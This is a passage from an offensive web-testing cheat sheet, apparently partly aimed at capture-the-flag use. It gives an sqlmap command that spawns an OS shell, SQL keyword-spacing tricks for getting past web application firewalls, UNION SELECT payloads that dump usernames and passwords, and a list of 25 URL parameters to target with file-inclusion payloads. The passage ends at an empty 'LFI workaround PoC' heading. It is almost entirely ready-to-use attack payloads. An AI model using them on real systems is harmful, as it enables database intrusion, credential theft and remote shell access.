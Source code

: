 | `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |
{% endtab %}
{% endtabs %}

**WAF BYPASSES**

```
SELECT-1e1FROM`test`
SELECT~1.FROM`test`
SELECT\NFROM`test`
SELECT@^1.FROM`test`
SELECT-id-1.FROM`test`
```

**Passwords**

```
uNiOn aLl SeleCt 1,2,3,4,conCat(username,0x3a,password),6 FroM users
uNiOn aLl SeleCt 1,2,3,4,conCat(username,0x3a,password,0x3a,flag),6 FroM users
```
{% endtab %}

{% tab title="File Inclusion" %}
## File Inclusion Parameters

1. ?cat={payload}
2. ?dir={payload}
3. ?action={payload}
4. ?board={payload}
5. ?date={payload}
6. ?detail={payload}
7. ?file={payload}
8. ?download={payload}
9. ?path={payload}
10. ?folder={payload}
11. ?prefix={payload}
12. ?include={payload}
13. ?page={payload}
14. ?inc={payload}
15. ?locate={payload}
16. ?show={payload}
17. ?doc={payload}
18. ?site={payload}
19. ?type={payload}
20. ?view={payload}
21. ?content={payload}
22. ?document={payload}
23. ?layout={payload}
24. ?mod={payload}
25. ?conf={payload}



## LFI workaround PoC
